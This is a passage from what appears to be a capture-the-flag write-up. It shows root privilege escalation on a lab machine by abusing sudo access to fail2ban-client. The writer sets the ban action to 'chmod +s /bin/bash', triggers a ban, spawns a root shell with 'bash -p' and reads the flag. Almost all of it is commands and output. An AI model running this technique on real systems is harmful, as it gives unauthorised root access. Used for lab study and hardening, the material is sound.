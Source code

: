 Let us modify the ban command which is a normal iptables command

```bash
asterisk@Billing:/$ sudo fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
<iptables> -I f2b-ASTERISK 1 -s <ip> -j <blocktype>
asterisk@Billing:/$ sudo fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```

Now we ban an IP to triger the new command.
```bash
asterisk@Billing:/$ sudo fail2ban-client set asterisk-iptables banip 6.6.6.6
```

check the ```/bin/bash``` permissions.

```bash
asterisk@Billing:/$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

```bash
asterisk@Billing:/$ /bin/bash -p
/bin/bash -p
bash-5.1# id
id
uid=1001(asterisk) gid=1001(asterisk) euid=0(root) egid=0(root) groups=0(root),1001(asterisk)
bash-5.1# ls /root
ls /root
filename  passwordMysql.log  root.txt
bash-5.1# cat /root/root.txt
#cat /root/root.txt
THM{XXXXXXXXXX}
```